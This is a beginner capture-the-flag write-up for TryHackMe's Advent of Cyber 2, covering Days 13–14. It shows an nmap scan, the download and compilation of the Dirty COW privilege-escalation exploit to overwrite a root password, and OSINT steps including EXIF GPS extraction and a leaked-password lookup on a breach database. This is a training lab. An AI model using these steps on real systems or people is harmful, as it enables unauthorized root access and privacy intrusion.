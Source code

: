 # [Advent of Cyber 2 [2020]](https://tryhackme.com/room/adventofcyber2)

> Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## Day 13: Coal for Christmas

scan the target

```
nmap -sS -sV -T4 10.10.22.125
```

![image](https://user-images.githubusercontent.com/90561566/222445181-223f51f0-5577-4723-92ea-b5e2d54c69cd.png)

telnet into the server, it also gives us the password

![image](https://user-images.githubusercontent.com/90561566/222445565-399e1120-7579-4ab7-9403-b902ba5b5020.png)

we have some infor here

![image](https://user-images.githubusercontent.com/90561566/222446673-60a84c7b-91cf-4c8a-92e7-268576e4c0e3.png)

quick research the file, you will found a version here

```
wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
```

transfer the file

![image](https://user-images.githubusercontent.com/90561566/222449024-13b9372a-8cf0-43ee-ab33-446d396b19b3.png)

run the file

```
gcc -pthread dirty.c -o dirty -lcrypt
```

![image](https://user-images.githubusercontent.com/90561566/222449198-2b06197c-57bc-414d-84c4-39635464a6d9.png)

we have changed password of an root's user

![image](https://user-images.githubusercontent.com/90561566/222449583-96b6909f-295c-476f-8713-df0c1376ac28.png)

there is an instruction for you

![image](https://user-images.githubusercontent.com/90561566/222449891-e6e847f8-077a-48de-83c5-d8e95690d12f.png)

```
touch coal
tree | md5sum
```

![image](https://user-images.githubusercontent.com/90561566/222450055-2de4cf16-d2d2-4c70-9e0b-937620be0c76.png)

Answer:

![image](https://user-images.githubusercontent.com/90561566/222459180-070864b2-ba15-4177-8bcc-c797b95871d4.png)

![image](https://user-images.githubusercontent.com/90561566/222459226-44c19abd-3fcd-4d45-94e4-02bc1033303e.png)

![image](https://user-images.githubusercontent.com/90561566/222459284-91e5153f-628b-4ef5-bd36-9f042d9bee2c.png)

![image](https://user-images.githubusercontent.com/90561566/222459539-0d9dbc52-dd86-436d-afef-0dc72c88031f.png)

## Day 14: Where's Rudolph?

search his username on google, i see 2 social accounts: twitter and reddit

![image](https://user-images.githubusercontent.com/90561566/222453488-5f7b6f64-18eb-47b5-a223-b9f2d2ce5ced.png)

in his reddit account, click tab comments

![image](https://user-images.githubusercontent.com/90561566/222452436-7b89398a-1d32-47ac-a0c2-dc0b8cf19b59.png)

search robert in google, you will found the next question

![image](https://user-images.githubusercontent.com/90561566/222453138-b534da7f-8391-4ac0-accd-25d4d11d89f4.png)

on his twitter, search for a tv show, it's bachelorette

![image](https://user-images.githubusercontent.com/90561566/222454717-afd87fea-fe18-4112-b34f-cc4f058b7769.png)

he has posted 2 images, on google image, you can find it's chicago

![image](https://user-images.githubusercontent.com/90561566/222455870-52d65996-9a0f-46ef-9d50-07af641e0867.png)

download the high resolution image and check for the exif infor

```
exiftool lights-festival-website.jpg
```

also in the exif data, they have a GPS Position and copyright infor contain our flag

search his email in scylla.sh, his password was reveal as spygame

Use the GPS Position we found earlier on openstreetmap, Look for the nearest Hotel: Chicago Marriott Downtown Magnificent Mile

![image](https://user-images.githubusercontent.com/90561566/222461664-bcd60506-be12-4de6-8a4d-8fbe93786ff4.png)

Answer:

![image](https://user-images.githubusercontent.com/90561566/222459653-6cea6b2b-e719-47b0-8522-d2079745acec.png)

![image](https://user-images.githubusercontent.com/90561566/222459699-ca29013c-cca1-4ed4-8f16-881c0f057d61.png)

## Day 15: There's a Python in my stocking!








